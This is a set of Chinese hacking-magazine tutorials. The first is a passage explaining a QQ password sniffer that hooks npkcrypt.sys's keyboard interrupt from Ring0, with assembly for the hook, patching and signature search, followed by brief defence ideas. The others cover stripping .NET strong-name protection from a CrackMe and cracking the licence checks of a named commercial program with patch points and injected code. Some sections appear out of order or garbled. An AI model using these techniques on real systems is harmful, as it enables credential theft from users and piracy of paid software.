- 前面所谈到的地址都是内核地址，那应该怎么进行读写呢？
- 对于 QQ 版本的不同，npkcrypt.sys 也有所变动，如何知道扫描码保存在那里呢？

针对这几个疑惑，我们可以这样解决。疑惑①：最开始可能会想到用监视内存的方法，只要扫描码值发生改变就获取一次，这种方法可行，但麻烦且不稳定。我们可以在自己的程序里加一个时钟消息，每隔 0.5 秒读取一次，或者用循环等等，但本文不赞同这种主动型方法。我们更希望的是用户敲下一次键盘我们就读取一次的被动型方法。没错，这就是键盘钩子，但与普通键盘钩子不同，我们不需要键盘钩子处理过程中保存键盘信息的参数，因为这个参数是被处理过的，我们只需要键盘被按下时的消息。用户按下键盘时，我们会收到 WM_KEYDOWN 消息，然后在这时候读取扫描码即可。

疑惑②：图3中 0x45D0 处保存的是要修改的中断向量号，我们可以直接读取该值；或者也可以用 npkcrypt.sys 提供的方法，通过反汇编查找调用 HalGetInterruptVector 函数的地方，就可以模仿 npkcrypt.sys 取得中断向量号的方法了。实现代码如下：

```asm
mov ebx, 1
lea eax, Affinity
push eax
lea edi, irq1
push edi
push ebx
push ebx
push ebx
push ebx
push ebx
call @HalGetInterruptVector
```

```asm
等价于 invoke HalGetInterruptVector,1,0,1,1,addr Irq,addr Affinity，后2个参数在这里没起作用，是调用该函数后返回的值
.if eax > 0FFh
  sub eax,100h
.endif
.if eax == 0
  lea eax,Affinity
  push eax
  push edi
  push ebx
  push ebx
  push 0
  push ebx
  call @HalGetInterruptVector
.endif
mov intNum,al ; al即该中断向量号
```

由于 HalGetInterruptVector 函数是内核函数，所以我们需要在 Ring0 下才能执行，具体会在疑惑③中提到。

疑惑③：如何读写内核地址？首先，当前计算机的登录用户账号必须是计算机管理员，否则你将很难做到这一切，除非你有什么方法提权或者突破系统限制。当使用计算机管理员账号登录时，我们有2个办法来实现。

- 1. Ring3 下直接将需要的物理内存 `\\Device\\PhysicalMemory` 映射到程序空间，只能以读的方式映射，因为只有读 `\\Device\\PhysicalMemory` 的权限。
- 2. 进入 Ring0，方法也有2个：一个是用驱动的方法，另一个是非驱动，通过在 `\\Device\\PhysicalMemory` 添加写权限，然后在 GDT 表添加一个调用门或 IDT 表添加一个中断门进入 Ring0。

因为方法（1）的前提是我们必须知道需要映射的是哪一部分物理内存，而且只有读的权限，所以一般我们会选择进入 Ring0 的方法。而在我的测试中，驱动的方法好像有内存保护等一些限制，所以本文使用非驱动的方法；但在 Vista 操作系统中是没办法使用了，因为限制了对 `\\Device\\PhysicalMemory` 的访问。进入 Ring0 后我们就可以为所欲为了，内核函数也可以调用，但要使用这些内核函数还需要用 ZwQuerySystemInformation 函数取得 hal.dll、ntoskrnl.exe（在一些操作系统中，ntkrnlpa.exe 替代了 ntoskrnl.exe）等系统模块的首地址，再找到指定函数的偏移地址相加后即可调用。

疑惑④：由于 QQ 最近几个版本都没有更新 npkcrypt.sys，如果只是监视最近几个版本的密码，用固定地址就可以了，但如果想做得完善一点，兼容以前的一些版本，可以用搜索特征码的方法，保存扫描码地址的特征码为 0xA2F8458A，可以打开 npkcrypt.sys 文件或者在内存中直接搜索该特征码，紧接着该特征码后的地址即保存扫描码的地址。

```asm
; 8A45F8          mov al, byte ptr [ebp-08]
; ebp-08是保存扫描码的局部变量（见图3）
; A2XXXXXXXX      mov byte ptr [XXXXXXXX], al
; XXXXXXXX为保存扫描码的全局变量
```

## 3）Hook中断服务程序的关键地方

在图3中，我们可以看到一段 npkcrypt.sys 读取键盘数据的程序，它是一个子程序，在 npkcrypt.sys 中几乎所有需要读键盘数据的地方都是调用该子程序完成的。所以，我们可以想办法在该子程序开始的地方（文件偏移 0x3474）跳转到我们的处理程序中，处理完后再返回。如果你想直接进行修改，那是要很高难度的，因为没有多少空闲的地方写入代码。这样，我们就没有 NumLock 是否打开的限制了，我们只需要将扫描码读取出来保存在我们希望的地方再返回就可以了。但要记住，在程序关闭时要还原原程序，程序运行时再修改。由于该中断服务程序是在 Ring0 代码段中执行的，所以我们需要申请一片内核空间来存放我们的 Hook 处理程序，在 Ring0 下可以调用 ExAllocatePool 和 ExFreePool 函数来申请和释放内核内存。

```asm
; 该函数为替换中断服务程序的某个关键函数
ReplaceReadPassCode proc
  push ebp
  mov ebp, esp
  push ecx
  in al, 60h
  mov byte ptr [ebp-01h], al
  mov al, byte ptr [ebp-01h]
  mov ebx, $ ; 复制该段代码到内核内存时要替换为Data段地址
  .if al == 0 || al == 0FAh
  leave
ret
endif
if al == 0E0H
  mov byte ptr [ebx-2],0
  mov byte ptr [ebx-1],al
else
  if byte ptr [ebx-2] != 0 && byte ptr [ebx-1] == 0E0H
    mov byte ptr [ebx-1],0
  endif
  mov byte ptr [ebx-2],al
endif
leave
ret
Data
int 3 ; 保存扫描码
; 占2个字节的位置来保存扫描码
int 3 ; 保存扩展码
ReplaceReadPassCode endp
ReplaceReadPassCodeLen = $ - ReplaceReadPassCode
```

Hook 的替换还原程序代码如下。

```asm
mov eax, HookSysMem
sub eax, HookAoAAddr
sub eax, 5
mov edi, HookMapAddr
mov byte ptr [edi],0E9H ; jmp 跳转机器码
mov dword ptr [edi+1],eax ; 相对地址

55      push ebp
8BEC    mov ebp,esp
51      push ecx
E460    in al,60
...
mov edi,HookMapAddr
mov byte ptr [edi],055H
mov dword ptr [edi+1],0E451EC8BH
```

Hook 成功之后，我们只需要读取 ReplaceReadPassCode 程序末尾 2 个字节的数据就可以取得想要的扫描码了。如果不想每次都在 Ring0 下读取，可以把 MmGetPhysicalAddress 函数取得 Hook 处理程序的物理地址再映射入程序空间，这样方便读写。

同疑惑④一样，如果不想用硬件地址，可以搜索特征码来查找需要 Hook 的地址。读键盘扫描码子程序的特征码为 0x8860E451。以下是该特征码的汇编代码。

```asm
55      push ebp
8BEC    mov ebp,esp
51      push ecx
E460    in al,60
8845FF  mov byte ptr [ebp-01],al
```

我们找到该特征码后，将该特征码所在内存地址减去 3 就可以得到读键盘扫描码子程序的首地址了。

最后，大家看一下我的测试程序的效果。当我在 QQ 密码框中输入“abcdBC$456”时，QQ 密码嗅探器可以成功记录密码，如图4所示。

图4 QQ密码实际截获效果

##### 检测及防范思路

安全没有绝对的，我们能做到的只是尽可能的防范。以下是本文针对此问题想到的几点安全措施。

- 1. **检测方法**：对 `npkcrypt.sys` 内存模块进行校验，如果校验错误，很有可能是该模块被修改过了。
- 2. **防范方法**：
  - 将 `npkcrypt.sys` 文件关键代码进行加密处理，加载进内存时再解密，以提高分析难度并减少运行期开销。
  - 一些重要数据应尽量隐藏，或在中断服务程序执行后清零，避免被直接读取。
  - 将 `npkcrypt.sys` 内存模块的关键代码放到禁止写操作的保护页中，防止虚拟内存修改。
  - Hook IDT 1号中断（调试异常处理），监视执行指令所在内存地址，超出模块范围时进行还原。

上面的方法都只能加大被破解的难度，要从根本上防治目前来看还是比较困难的，所以说安全是没有绝对的。

适合读者：破解爱好者  
前置知识：.net

## 手把手教你 .net 程序加壳之三

文/图 tankaiha

##### 强名称保护

本文已经是 .net 系列破解的第三篇了，在开始这次的内容之前，我们先把前两篇文章的内容小结一下，温故而知新嘛！通过前两篇文章的介绍，我们了解了以下内容：

- 1. 什么是 .net，它的基本运行方式。
- 2. .net 程序的静态分析、Reflector 的使用。
- 3. .net 程序的修改方法：直接修改和利用 ilasm 编译修改。
- 4. 什么是名称混淆。
- 5. 利用程序中的代码编写注册机。

这一次，我们在以往内容的基础上，接着介绍 .net 下的另一种很重要的保护方式：强名称，示例程序仍是来自 KC 的 .net CrackMe 系列的 #2。

##### 静态分析

我们先运行一下程序，窗口上的文字告诉我们这个 CrackMe 共使用了四种保护手段：混淆、编码字符串、强名称和反 Reflector。用 Reflector 载入，可以反编译，说明反 Reflector 功能没起作用，这也许是因为 Reflector 程序更新过，而 CrackMe 还是采用的较早期的 anti 功能的原因吧。

由于该系列的 CrackMe 程序结构大体相同，算法略有区别，因此我们直接使用上一期介绍的方法定位到注册算法段，如图1所示。注册算法我们在下面详细分析，在阅读时会发现 CrackMe #2 与 #1 之间不同的部分，这部分代码就涉及到了新的保护手段。下面，让我们借着注册算法中的代码，引出今天的主题——强名称。

##### 什么是强名称

强名称（StrongName）是 .net 提供的一种验证机制，主要功能有两个：标识版本和标识原作者。强名称的原理和 Win32 下的自校验有点类似，也是利用特定的算法对程序进行 Hash 计算，但检验过程由 .net 平台实施。大家可以做一个小试验，用十六进制编辑软件打开程序，将文件头中的“This program cannot be run in DOS mode.”任意改动一个字符，如图2所示，保存后再次运行，会得到图3所示的报错结果。

图3便是 .net 程序在强名称检验失败时的报错窗口，这表明程序已经被修改过了。尽管我们只是做了很小的变动，将字符串“DOS”变为“dos”。知道了什么是强名称，让我们再来看看怎么去除这种保护。

##### 给程序加强名称

我们暂时把 CrackMe 放在一边，自己动手编写一个最简单的程序来解释强名称的签署。输入如下 C# 代码，并保存为 sntest.cs。

```csharp
using System;
using System.Reflection;
class Program
{
    public static void Main()
    {
        Console.WriteLine("程序的强名称是：");
        Assembly executingAssembly = Assembly.GetExecutingAssembly();
        Console.WriteLine(BitConverter.ToString(executingAssembly.GetName().GetPublicKeyToken()));
    }
}
```

图5

三行代码完成了一个任务，显示该程序的强名称。其中 GetExecutingAssembly 是取得正在运行的程序集，然后通过 GetPublicKeyToken 显示强名称的 token 值，最后将 token 的内容显示出来。由于 token 是一个 byte[] 类型的字节数组，因此要通过 BitConverter 转换为字符串。

GetPublicKeyToken 吗？CrackMe 中也使用了同样的代码。

代码保存完毕后，先别急着编译，因为我们需要一个强名称文件。在命令行中输入“sn k mysn.snk”，就生成了名为 mysn.snk 的强名称 key 文件。在编译代码时，在命令行中加入这个 key 文件：“csc /keyfile:mysn.snk sntest.cs”。之后运行 sntest.exe，显示结果如图4所示。

##### 特殊的强名称保护：代码中包含强名称的使用

如果程序的代码包含了强名称的使用，就不可以用上面的一般方法去除了。我们看看 CrackMe #2 中的注册算法，其中有下面的一段代码。

图4

大家也可以试着用前文的方法修改可执行文件，得到的结果自然是无法运行。下面看看如何去除强名称保护。

仔细分析代码，原来程序本身的强名称已经参加了注册码的计算，用来定位及解密保存在资源文件中的注册码。如果强名称被改变或者去除，则 GetManifestResourceStream 取出资源后，得到的注册码将完全错误。

##### 一般的强名称保护去除

为什么要加“一般”呢？这里的“一般”指的是，程序仅仅是在编译时加入了强名称，而没有在代码中使用强名称。对于这种保护，只需要用通用的强名称去除工具（如 Strong Name Remove）或者强名称替换工具（如 ReSign）将原程序中的强名称去除（或者替换）后，程序即可正常运行。

用 Strong Name Remove 载入 CrackMe #2，点击“Verify”后，会显示程序的强名称信息（包括自身的和引用的），如图5所示。点击“Patch”便是去除程序本身的强名称，点击“Patch References”是去除所有程序集引用的强名称。

如果在实际应用中遇到这种比较特殊的强名称保护的程序，在分析时应该尽量仔细，搞清楚程序的来龙去脉，编写程序的解码程序，尽量编写注册机而不是爆破程序。

有了上面这段代码，接下来的工作就很简单了：取得 token，解码资源，取得注册码。注册机的编写就当作练习题留给大家了。

当然，这个 CrackMe #2 并非一般的强名称保护。如果试着点击 Patch 后再运行程序，同样会报错。为什么呢？还记得刚才 sntest 中的代码使用了 GetPublicKeyToken 吗？

##### 小结

本文介绍了 .NET 下最基本、最常见也是最重要的保护手段——强名称，内容包括强名称的签署、一般强名称保护的去除、特殊强名称保护的分析。

适合读者：破解爱好者  
前置知识：汇编语言

#### 小菜学破解之五

##### 爆破、爆破分析与爆破方法

文／图 laoxuetong

##### 爆破说

爆破，暴力破解的代名词。而暴力，就是使用非法手段实现自己的目的。这个问题可就大了！别害怕，我们不使用暴力，使用的是智力。通常也就是修改跳转，让软件不按照设计者的思路，而是按照我们的思路走而已。

按理，所有修改了原始代码的工作都是在搞爆破，不仅仅是修改跳转的问题。按照这个思路，让软件在未注册时工作于注册状态是爆破；不懂算法，但让软件自动显示正确的注册信息是爆破；输入不正确的注册信息而成为真正的注册版软件是爆破；一些软件在使用时需要检测或读取软件狗，能让其得到正常的信息的是爆破；一些软件存在网络验证，不让其进行或让其到我们指定的站点去验证，并能得到正确的返回信息的是爆破；修改或添加软件功能的是爆破；让试用版软件成为正式版软件的也是爆破。

所以，爆破并不都是在搞“破坏”。很多种情况下，爆破是为了在无法得到源代码的情况下，对软件功能的提升，或者是对软件的 Bug 的修复，适时正确地使用爆破技术是完全必要的。当然，有时也是出于无奈而为之。

爆破也是一门艺术，掌握好能收到事半功倍的效果。爆破问题似乎简单，很多初入道的朋友乐此不疲地去追寻探求它。这是一个误区。

应不应该使用爆破手段，要看具体的情况加以分析，不应一概而论。作为软件的注册问题，如果能搞清楚注册算法，应该是上策。这既可以锻炼你的跟踪能力、分析能力，也可以提高你的软件制作水平，何乐而不为？况且一些软件注册码中包含了软件的控制信息，靠简单地修改几个跳转就能实现吗？君不见，网上常出现一些非完美爆破的软件吗？要么功能不全，要么显示不正常，这些都是爆破后遗症。

所以我认为，只有在注册算法过于复杂，或者即使搞清楚了注册算法也不可能得到正确的注册信息，或者自己确实搞不明白软件在干什么，或者在什么时候干时才考虑实施爆破。只有这样，爆破才是必需的。

一些软件基本上是不能爆破的，爆破了就是废品，或者爆破时要处理的数据量太大，而难以实现。典型的例子就是我写的发表于《黑客防线》2007年第1期的文章中的软件。因此，我总是将爆破作为一种无奈之举，一般情况下我是不会使用这种手段的。

##### 爆破分析

爆破有爆破的道，只有按照这个道来进行，才能收到预期的效果。下面我们以一个防盗版软件为例，说明爆破分析问题。软件的下载地址为 http://www.ronyasoft.com/products/virtguard/index.html，该软件有使用期限，未注册时，软件启动有要求注册的提示框，运行时有时间限制。也就是一个字，“烦”啊！

第一步，探“风”  
该软件被加了壳“yoda's Protector 1.02 -> Ashkbiz Danehkar”，为了便于分析，特请了朋友脱之（本人也算是壳盲）。启动脱壳后的软件，不输入相关信息，点那个注册按钮，得到提示如图1所示，“注册名至少应该包含8个字符”；再随意输入注册信息，得到的提示如图2所示，“注册码必须包含32位字符”，好啊，我就爱你这样。

记下这些字符串，在 OD 中或者在 WinHex 中搜索去吧！嗯？怎么没有找到？看来，这些字符串被加密了。按照过去的思维方式，应该去找那些怪异的字符……串，结果还是无功而返。看来作者是下了一番功夫了，放弃搜索字符串。

用 PEiD 检测脱壳后的软件，是用 Delphi 编写的。用 ResScope 软件查看，发现注册信息输入对话框资源在其中，说明注册验证是在主程序中进行的。

到这里，本可以使用 DeDe 进行代码定位，不过那东西也不够准确，放弃（我在第一篇教程中压根就未介绍，原因也就如此）。

##### 第二步，追“风”

直接用 OD 了。断点就成为首要问题了，在代码的汪洋大海中必须合适地找到它。

测试 API 断点 MessageBoxA，软件中包含有这个函数，但是无用，根本没有使用它。但是你仔细看看图 1 和图 2，分明是标准的消息盒，这问题就怪了。

猛然想起，一些软件编写高手在很多情况下，不直接使用常见的 API，照样可以实现常见的 API 功能，如消息传递机制！

试试 API 函数 SendMessageA，哈哈，成功拦截。这算是运气，还是见识？

通过跟踪，发现软件对 SendMessageA 是动态调用的。你每按动一次键盘，都会调用一次这个函数。所以断点下得早了：名称 + 注册码又至少 40 位，跟踪起来就比较麻烦了。故下断点的最佳时机应该是在输入最后一个字符之前进行。

通过上述分析，设置好断点之后，输入完最后一个字符，软件就会被断住。之后就需要缓慢跟踪了。另外，如果按下注册按钮之后出现循环而不往前走，则应该取消循环内的断点，这样才能够走出。

```asm
005C2B3C  CALL unpack.0046F848   ; 读取名称
005C2B41  MOV EDX,DWORD PTR SS:[EBP-C]
005C2B44  LEA EAX,DWORD PTR DS:[ESI+338]
005C2B4A  CALL unpack.004047D0
...
005C2B58  CALL unpack.0046F848   ; 读取注册码
005C2B5D  MOV EDX,DWORD PTR SS:[EBP-10]
...
005C2B77  CALL unpack.005C3444
005C2B7C  MOV CL,1
...
005C2B8A  CALL unpack.005C34B0
```

按钮事件的相应代码。好，现在我们来到了下列代码处：

```asm
005C2B8F  MOV EBX,EAX      ; 转移标志
005C2B91  TEST BL,BL
005C2B93  JNZ SHORT unpack.005C2B9B
005C2B95  MOV BYTE PTR SS:[EBP-1],1
005C2B99  JMP SHORT unpack.005C2BBB
```

这里检测名称长度和注册码长度，name 长度需要 >=8 位，SN 长度需要 32 位。

可以看到，测试之后，后面跟随着一个条件跳转。当条件不满足时，应该会出现对话框的。不妨去看看到底是怎么回事。

```asm
004029AD  REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]
004029AF  MOV ECX,EAX
004029B1  AND ECX,3
004029B4  ADD ESI,3
004029B7  ADD EDI,3
004029BA  REP MOVS BYTE PTR ES:[EDI],BYTE PTR DS:[ESI]
004029BC  CLD
004029BD  POP EDI
004029BE  POP ESI
004029BF  RETN
```

是什么数据呢？我们看看转存内容，如图 3 所示。可以看到，这里确实是一些怪异的字符串，只...

| 地址 | Hex 数据 | ASCII |
|---|---|---|
| 010389E0 | 5C 70 73 ... | `\ps;...` |
| 010389F0 | 79 00 6E ... | `ynw...` |
| 01038A00 | 2C 70 76 ... | `,p...` |

图 3

```asm
005C3268  PUSH EBX
005C3269  PUSH ESI
005C326A  PUSH EDI
005C326B  PUSH EBP
005C326C  PUSH ECX
005C326D  MOV EBP,EDX
...
005C327E  TEST EDI,EDI
005C3280  JLE SHORT unpack.005C32E8
...
005C329C  MOVZX EAX,BYTE PTR DS:[EAX+ESI-1]
; 读取注册名一位
005C32A1  ADD EAX,0A
005C32A4  ADD EAX,EBX
```

```asm
005C32A6  MOV ECX,0FF
005C32AB  CDQ
005C32AC  IDIV ECX        ; 结果 mod 0xFF
005C32AE  POP EAX
005C32AF  MOV BYTE PTR DS:[EAX],DL   ; 替换名称
005C32B1  JMP SHORT unpack.005C3207
...
005C32E6  JNZ SHORT unpack.005C3287
005C32E8  POP EDX
005C32E9  POP EBP
005C32EA  POP EDI
005C32EB  POP ESI
005C32EC  POP EBX
005C32ED  RETN
```

```asm
005C43E4  MOV EBX,EAX
005C43E6  LEA EDX,DWORD PTR SS:[EBP-14]
005C43E9  MOV EAX,ESI
005C43EB  CALL unpack.005C4934
...
005C443C  CALL DWORD PTR DS:[ESI+4]
005C443F  MOV EAX,DWORD PTR SS:[EBP-C]
005C4442  PUSH EAX
005C4443  MOV EDX,unpack.005C44A4 ; ASCII "Data"
...
005C4451  CALL DWORD PTR DS:[EBX+4]
```

不过 OD 中没有被搜索出来而已。它们是什么呢？跟随后来到这里。

这是一段加密解密代码，是解密还是加密由传递过来的参数确定。其中上面的部分为加密，下面的为解密。方法也很简单，循环使用 10、11、12、13、14 做加法或者做减法，改变 ASCII 码值。上面那段数据的解密结果如下。

```text
010389EC  52 65 67 2E 4E 61 6D 65 20 6D 75 73 74 ...
Reg.Name must contain at least 8 characters!
```

哈哈，狐狸尾巴露出来了吧！？

```asm
005C43D5  MOV ECX,DWORD PTR DS:[ESI+8]   ; 文件名
005C43D8  MOV DL,1
005C43DA  MOV EAX,DWORD PTR DS:[43E850]
005C43DF  CALL unpack.0043E900
```

重来。保证名称长度不少于 8，注册码长度为 32 之后，来到这里。

软件将 C 盘序列号的变形 MD5 结果和注册名、注册码的密文（见加解密函数）保存到软件当前所在目录的文件中。用记事本打开它，是一个标准的配置文件。

```asm
005C4138  CALL unpack.00404C9C   ; 分离前24位
005C413D  LEA EAX,DWORD PTR SS:[EBP-C]
005C4140  PUSH EAX
005C4141  MOV ECX,8
005C4146  MOV EDX,19
005C414B  MOV EAX,DWORD PTR SS:[EBP-4]
005C414E  CALL unpack.00404C9C   ; 分离后8位
```

前后两步将注册码划分为前 24 位和后 8 位，分开进行处理。

```asm
005C4153  LEA ECX,DWORD PTR SS:[EBP-10]
005C4156  MOV EDX,DWORD PTR SS:[EBP-8]
005C4159  MOV EAX,104        ; 104==计算校验码
005C415E  CALL unpack.005C1578
005C4163  MOV EAX,DWORD PTR SS:[EBP-C]
005C4166  MOV EDX,DWORD PTR SS:[EBP-10]
005C4169  CALL unpack.00404B88 ; 关键比较
005C416E  SETE BL            ; 设置标志
```

软件将输入的注册码划分为前 24 位和后 8 位后，对前 24 位进行一番计算（计算校验值），然后将其字符串化结果与注册码的后 8 位进行比较，最后设置比较结果的标志。

很显然，这里还没有检验注册码的正确性，只是检验了注册码的合法性。如果这里通不过，应该后续的部分是不会执行的（你怎么知道？连猜带估呗，也是经验嘛）。所以，为了按照我们设计的路线走，可以修改判断，设置预期的标志。当关键比较完成后，代码停留在语句 SETE BL 时，标志寄存器的内容如图 4 所示。在 Z 的右侧的 0 上双击，0 变成了 1，如图 5 所示。


怎么知道就是应该在这里双击来改变数据就能达到目的呢？还记得信息显示栏吗？观察它呀，有动静的就肯定是它了。我们这里双击前后的显示结果如图 6 和图 7 所示。明白了吧，不用改变任何一行代码的。


如果这里通过了，接着又会来到这里。

```asm
005C407B  CALL unpack.005C4104 ; 校验值判断
005C4080  TEST AL,AL           ; 测试标志
005C4082  JE SHORT unpack.005C40AE ; 爆破点
```

对判断结果进行判断。不管它，我们已经做好准备了，随后来到这里。

```asm
005C427D  MOV EDX,DWORD PTR SS:[EBP-8] ; 名称
005C4280  MOV EAX,EBX
005C4282  CALL unpack.005C4988
005C4287  LEA ECX,DWORD PTR SS:[EBP-C]
005C428A  MOV EDX,DWORD PTR SS:[EBP-C]
005C428D  MOV EAX,10D
005C4292  CALL unpack.005C1578 ; 计算
005C4297  LEA ECX,DWORD PTR SS:[EBP-10]
005C429A  MOV EDX,DWORD PTR SS:[EBP-4] ; 输入的注册码
005C429D  MOV EAX,EBX
005C429F  CALL unpack.005C4ABC
005C42A4  LEA ECX,DWORD PTR SS:[EBP-10]
005C42A7  MOV EDX,DWORD PTR SS:[EBP-10]
005C42AA  MOV EAX,10D
005C42AF  CALL unpack.005C1578
005C42B4  MOV EAX,DWORD PTR SS:[EBP-C] ; 名称计算结果
005C42B7  MOV EDX,DWORD PTR SS:[EBP-10] ; 注册码计算结果
005C42BA  CALL unpack.00404B88 ; 比较
005C42BF  SETE BL ; 爆破点
```

看了我的旁注，应该知道已经到了关键点了。关于注册码和注册码的计算函数非常复杂，代码较多，这里就不贴出来了，如果你要学习跟踪，请注意下列代码部分的异同。

```asm
005C4159  MOV EAX,104
005C415E  CALL unpack.005C1578   ; 计算前24位的校验码

005C428D  MOV EAX,10D
005C4292  CALL unpack.005C1578   ; 计算...
```

函数名相同，但传递的参数不同，进入后会发生很大的变化，稍不留神会犯糊涂的。

为了能得到注册成功的消息，同样可以通过修改标志寄存器的值来实现。经过这里后，又来到这里。

```asm
005C409B  CALL unpack.005C4244
005C40A0  TEST AL,AL
005C40A2  JE SHORT unpack.005C40AA
005C40A4  MOV BX,8001
005C40A8  JMP SHORT unpack.005C40D6
```

此处的“JE SHORT unpack.005C40AA”可不能跳啊！如果这里不跳，随后就会显示注册成功的消息。爆破点选择在什么位置好呢？软件采用了分段式判断的方法：第一次检验注册码的合法性，第二次检验注册码的正确性。如果选择在“005C416E SETE BL”和“005C42BF SETE BL”处合适吗？本人认为不太合适，因为不知道软件中有多少地方要调用这里，万一还有其它地方要调用这里，岂不要乱套了？所以，应当将爆破点选择在“005C4082 JE SHORT unpack.005C40AE”和“005C40A2 JE SHORT unpack.005C40AA”两处。实验证明，判断是正确的。等什么，还不赶快动手？

为了更加明确软件的注册算法流程，我们来看计算与判断的流程图，如图 8 所示。


图 8

因为 MD5 和 SHA1 加密算法是不可逆的，要从结果比较处逆推出注册码是不可能的。从流程图中倒过来看，二次函数 1 和二次函数 2 的计算结果必须相同，否则后面的结果不可能相等。若碰巧相等，那可比中大彩还难上加难。但这两个二次函数并不相同，而且在正整数的范围内非单调函数（上期的思考题）求逆也是比较困难的（作者怎么给人注册？留作后话）。故而这个软件虽然是明码比较，要想从软件爆出正确的注册码来是不可能的，内存注册机肯定在这里无用武之地。

##### 爆破方法

前面已经说过，爆破不仅仅是修改几个跳转，还可以是添加或删除一些代码，以达到某个目的，或者是增加某个功能。这个软件除了能爆破成注册版外，能不能还爆点什么出来呢？仔细分析，或许搞点名堂出来。

首先，如果你不能编写复杂的代码，你就可以借助于软件中现成的代码帮你进行计算，以得到一些半拉子产品。第一次验证时，不是要检验校验码吗？实际跟踪时，发现这部分代码虽然不是很复杂，但是使用的那个数据表却比较大，而且实际不是 256 个单元，远远大于这个。如果在比较时进行拦截，可以得到校验码，避免进行相关计算。

有朋友会问，这里拦截的数据是假的，注册码还没有进行计算呢。不错，确实如此。但如果注册码的前 24 位是真的呢？

其次，注册码正确性检验的过程中，后面的加密方法对于我们来说是可有可无的。我们只要能从下面的图 9 中打开一条通道，就可以得到需要的注册码。其中，二次函数 2 需要进行逆变换。


图 9

很显然，二次函数 1 变换前，拦截注册码变形 MD5 变换的结果就比较重要了，不然就需要编写这部分代码进行计算。我们需要这部分数据，才能完成注册前 24 位的推算工作。当然，每次都采用 OD 来进行跟踪也是一件烦心的事。所以我们就要爆破，要让软件在合适的时候给我们以提示，告诉我们，现在算出了什么数据。由谁来告诉我们呢？历史的任务自然落到 MessageBoxA 的手上了。还记得我说过的，软件中包含了 API 函数 MessageBoxA，但出错提示却没有使用它吗？这可是好事，不用我做更多的手脚。

现在我找出这两处代码来，其中校验判断处为：

```asm
005C4163  MOV EAX,DWORD PTR SS:[EBP-C]    ; 后8位
005C4166  MOV EDX,DWORD PTR SS:[EBP-10]   ; 计算结果
005C4169  CALL unpack.00404B88            ; 关键比较
005C416E  SETE BL
```

记住这些代码及其对应关系。名称第一次变形 MD5 计算并完成截取前 24 位后，代码位置为：

```asm
005C49E8  CALL unpack.00404C9C             ; 分离前24位
005C49ED  LEA EDX,DWORD PTR SS:[EBP-C]
005C49F0  MOV EAX,DWORD PTR SS:[EBP-8]     ; 分离的结果
005C49F3  CALL unpack.005C3038             ; 前24位是用二次函数再计算
005C49F8  MOV EDX,DWORD PTR SS:[EBP-C]     ; 结果
```

也记住这些代码及其对应关系。动手之前先查看一下 005C4169 及 005C49F3 两处的机器码，发现都不少于 5 个字节。为什么关心这个？因为我要将这两处修改为跳转指令，而且还是长跳，需要 5 个字节才能放得下，要不然还需要移动其后的代码。

做好上述准备后，就可以考虑写入破解代码了。在 OD 的汇编代码区的右侧向下拖动滚动条，直到全 0 的区域，选择合适的地址（Adder），分别写下如下的内容：

- Adder1: 校验码是
- Adder2: MD5 结果是
- （注意留些间隔（全 0））
- Adder3:

```asm
Pushad
Push 0
Push Adder1
Push EDX
Push 0
CALL <JMP.&user32.MessageBoxA>
Popad
JMP 005C416E
```

- Adder4:

```asm
Pushad
Push 0
Push Adder1
Push EDX
Push 0
CALL <JMP.&user32.MessageBoxA>
Popad
JMP 005C49F8
```

- （这里也注意留一些间隔）

这样，报警的对话框就设置好了。然后再将 005C4169 和 005C49F3 两处的指令分别修改为：

```asm
005C4169  JMP Adder3
005C49F3  JMP Adder4
```

然后再将“005C4082 JE SHORT unpack.005C40AE”这一句给 nop 掉，不然不能到达后面的计算部分。保存修改的结果后就大功告成了。运行测试一下，是不是有点爽？当然，还只能是有点爽，不能全爽，因为离得到正确的注册码还差一大截呢。我们再来看看这两个二次函数是什么样。

函数 1 的代码如下：

```asm
005C2FE0  PUSH EBX
005C2FE1  MOV ECX,EAX
005C2FE3  MOVZX EBX,CX
005C2FE6  MOV EAX,EBX
005C2FE8  SHL EAX,5
005C2FEB  LEA EAX,[EAX+EAX*4]
005C2FEE  IMUL EBX
005C2FF0  IMUL EDX,EBX,8E
005C2FF6  ADD EAX,EDX
005C2FF8  ADD EAX,0F5
005C2FFD  MOV ECX,0FF
005C3002  XOR EDX,EDX
005C3004  DIV ECX
005C3006  MOV EAX,EDX  ; 返回余数
005C3008  POP EBX
005C3009  RETN
```

函数 1 原型为：f1(x)=(160*x^2+142*x+245) mod 255

函数 2 的代码为：

```asm
005C300C  PUSH EBX
005C300D  MOV ECX,EAX
005C300F  MOVZX EBX,CX
005C3012  MOV EAX,EBX
005C3014  ADD EAX,EAX
005C3016  LEA EAX,[EAX+EAX*4]
005C3019  IMUL EBX
005C301B  MOV EDX,EBX
005C301D  SHL EDX,3
005C3020  LEA EDX,[EDX+EDX*2]
005C3023  ADD EAX,EDX
005C3025  ADD EAX,7
005C3028  MOV ECX,0FF
005C302D  XOR EDX,EDX
005C302F  DIV ECX
005C3031  MOV EAX,EDX
005C3033  POP EBX
005C3034  RETN
```

函数 2 原型为：f2(x)=(10*x^2+24*x+7) mod 255。通过跟踪得知，这两个函数的自变量都必须是字节类型数据。计算之前，软件分别将注册码的前 24 位和注册名的 MD5 计算结果的前 24 位，按每两位一个组合进行切割，并将其转化为整数。计算完成后，又将结果转化为两个字符并进行重新组合。

本来，函数（160*x^2+142*x+245）和（10*x^2+24*x+7）在正整数的范围内都是单调函数，按高中的数学知识可知存在反函数，也就是说 f2⁻¹(f1(x)) 是有意义的。但问题是计算的结果未必是整数，而且增加了求模运算之后，函数就不是单调函数，大多数情况下也不存在反函数了，所以 f2⁻¹(f1(x)) 也就不一定有意义了。

解决的办法有两个：一个办法是采用穷举法，当 x 依次取转换的数据时，计算 f1(x) 的值，然后当 x 依次取 0、1、2……时，计算 f2(x) 的值，并与 f1(x) 的值进行比较。如果相等了，f2(x) 中的 x 即为注册码中的对应数据。另一种方法，事先采用穷举法，求出每个字节类型数据的对应数据，按照从小到大的方式排列为一个数组，以后使用时采用查表法就可以很快得到所需要的结果。应该说这种方式是一劳永逸的方法。例如，通过计算，我得到了如图 10 所示的表格。

查表矩阵（图10）

图10

```asm
004045C6  PUSH 0                     ; Style = MB_OK|MB_APPLMODAL
004045C8  PUSH unpack.005CA06C       ; Title = "Error"
004045CD  PUSH unpack.005CA074       ; Text = "..."
004045D2  PUSH 0                     ; hOwner = NULL
004045D4  CALL <JMP.&user32.MessageBoxA>
MessageBoxA
```

